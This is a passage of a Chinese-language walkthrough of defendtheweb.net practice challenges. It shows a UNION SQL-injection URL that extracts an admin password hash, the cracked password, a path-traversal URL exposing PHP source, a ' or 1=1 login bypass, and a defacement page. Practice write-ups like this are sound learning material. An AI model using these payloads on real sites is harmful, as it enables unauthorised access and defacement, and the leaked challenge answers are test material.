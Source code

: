 再得到密码 1b774bc166f3f8918e900fcef8752817bae76a37

`https://defendtheweb.net/playground/sqli2?q=' UNION ALL SELECT password,2 FROM members WHERE admin=1;#`

这是个 sha1 加密的串，解密得到 sup3r

## Princess slag / Realistic

一眼漏洞，访问

[https://defendtheweb.net/extras/playground/princess-slag/?p=../admin.php](https://defendtheweb.net/extras/playground/princess-slag/?p=../admin.php)

看到了 php 源码

```php
<!--?php
    session_start();
    if(isset($_GET['password']) ){
        if( $_GET['password'] == '36d545e033'){
            echo "Correct password"
        } else {
            echo "Incorrect password";
        }
    }
?-->
```

## Xmas '08 / Realistic

随便提交一个，发现提交后的地址为 [https://defendtheweb.net/extras/playground/xmas08/mod.php?submit](https://defendtheweb.net/extras/playground/xmas08/mod.php?submit)

这是经典漏洞，我们继续访问 [https://defendtheweb.net/extras/playground/xmas08/mod.php?action](https://defendtheweb.net/extras/playground/xmas08/mod.php?action)，可以看到登陆界面

账号和密码都直接注入 `' or 1=1`

然后打开 index.php，并将内容修改为

```html
<html>
<head>
<title>WARNING!!</title>
<style type="text/css">
body{
    background-color: #000000;
    color: #FFFFFF;
}
</style>
</head>
<body>
<div style="width: 100%; text-align:center">
    <img src="xmaswarning.jpg" />

</div>
</body>
</html>
```
